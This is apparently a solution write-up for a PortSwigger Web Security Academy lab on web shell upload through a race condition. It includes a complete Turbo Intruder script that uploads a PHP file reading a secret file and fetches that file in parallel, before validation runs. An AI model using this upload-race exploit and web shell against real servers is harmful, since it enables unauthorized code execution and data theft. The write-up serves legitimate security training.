





# Lab: Web shell upload via race condition

**Link**: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

**Solution**:

The problem is that the image sent to Sandbox to check and validate it (this because it takes some time to respond)
Right now, we have two requests (one post image and one get image)

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>

To do them in parallel, we will use burp extension called Turbo intruder

Right click on the request ⇒ extensions ⇒ Turbo intruder ⇒ send to turbo intruder

We will change the following

<p align="center" width="100%">
  
</p>

We will copy these two requests and past them in (noPayload varabile and onePayload) 

Like the following and click Attack

```python
# This is just for making sure the engine works during development
# Launch with java -jar build/libs/turbo-intruder-all.jar resources/examples/test.py /dev/null z z
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='https://0ab9000804f4e1ecc4f3649500cb0018.web-security-academy.net',
                           concurrentConnections=2,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    noPayload = '''POST /my-account/avatar HTTP/1.1
Host: 0ab9000804f4e1ecc4f3649500cb0018.web-security-academy.net
Cookie: session=vKAkPNRXFYBzxMWNzNBNDlEwyR87h0zQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,ar;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1907615794109861402165653843
Content-Length: 536
Origin: https://0ab9000804f4e1ecc4f3649500cb0018.web-security-academy.net
Referer: https://0ab9000804f4e1ecc4f3649500cb0018.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------1907615794109861402165653843
Content-Disposition: form-data; name="avatar"; filename="test2.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------1907615794109861402165653843
Content-Disposition: form-data; name="user"

wiener
-----------------------------1907615794109861402165653843
Content-Disposition: form-data; name="csrf"

JRSpiCza9o5aBQCnK4sCYhasbHE3ANAK
-----------------------------1907615794109861402165653843--

'''
    engine.queue(noPayload)

    onePayload = '''GET /files/avatars/test2.php HTTP/1.1
Host: 0ab9000804f4e1ecc4f3649500cb0018.web-security-academy.net
Cookie: session=vKAkPNRXFYBzxMWNzNBNDlEwyR87h0zQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,ar;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0adf00fe036abc10c1424fe9008f0036.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

'''
    engine.queue(onePayload)


def handleResponse(req, interesting):
    table.add(req)
```
notice it execute the code before send it to the Sandbox checks


<p align="center" width="100%">
  
</p>


<p align="center" width="100%">
  
</p>
